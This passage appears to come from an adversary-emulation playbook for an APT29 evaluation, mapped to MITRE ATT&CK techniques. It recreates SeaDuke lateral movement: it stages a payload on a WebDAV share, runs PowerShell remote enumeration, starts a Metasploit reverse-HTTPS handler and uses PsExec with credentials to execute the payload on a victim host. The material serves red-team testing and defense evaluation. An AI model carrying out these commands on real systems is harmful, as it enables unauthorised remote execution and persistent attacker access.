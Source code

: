 #### Procedures

##### 8.A - Remote Services: Windows Remote Management ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/))

Copy payload to webdav share:

[user@attacker]\# `cp attack-evals/apt29/day1/payloads/python.exe /var/www/webdav/`
[user@attacker]\# `cd /var/www/webdav`
[user@attacker]\# `chown -R www-data:www-data python.exe`

Switch back to Meterpreter shell:

[meterpreter (PowerShell)\*] > `Ad-Search Computer Name *`

[meterpreter (PowerShell)\*] >

```powershell
Invoke-Command -ComputerName <victim 2 IP> -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId
```

Note the session ID for step 8C.

##### 8.B - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Start a new instance of Metasploit, and spawn a Metasploit handler:

[bash] > `msfconsole`

[msf] > `handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https`

Return to current Meterpreter session:

[meterpreter (PowerShell)\*] > `Invoke-SeaDukeStage -ComputerName <victim 2 IP>`

##### 8.C - System Services: Service Execution ([T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

**Execute SEADUKE Remotely via PSEXEC**

[meterpreter (PowerShell)\*] >

```powershell
.\PsExec64.exe -accepteula \\<victim 2 IP> -u "domainName\username" -p P@ssw0rd -i <session ID from 8A> "C:\Windows\Temp\python.exe"
```

You should receive a callback in your other Metasploit terminal.

#### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* SeaDuke has been written in Python and has been delivered through the CozyDuke toolkit.<sup>[1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf),[13](https://www.symantec.com/connect/blogs/forkmeiamfamous-seaduke-latest-weapon-duke-armory) </sup>
